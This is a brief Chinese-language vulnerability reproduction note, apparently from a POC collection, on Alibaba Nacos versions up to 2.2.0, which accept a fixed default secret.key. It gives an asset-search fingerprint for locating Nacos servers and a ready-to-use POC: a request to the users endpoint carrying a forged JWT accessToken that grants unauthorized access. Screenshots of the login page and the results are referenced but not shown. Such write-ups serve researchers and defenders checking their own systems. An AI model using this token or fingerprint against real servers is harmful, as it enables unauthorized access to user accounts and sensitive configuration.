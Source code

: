 # Alibaba Nacos secret.key默认密钥 未授权访问漏洞

# Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

```
Alibaba Nacos <= 2.2.0
```

## 网络测绘

```
app="NACOS"
```

## 漏洞复现

登陆页面

![image-20230417093555107](images/image-20230417093555107.png)

漏洞原因是使用了固定的Key

![image-20230417093624167](images/image-20230417093624167.png)

验证POC

```
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![image-20230417093649928](images/image-20230417093649928.png)

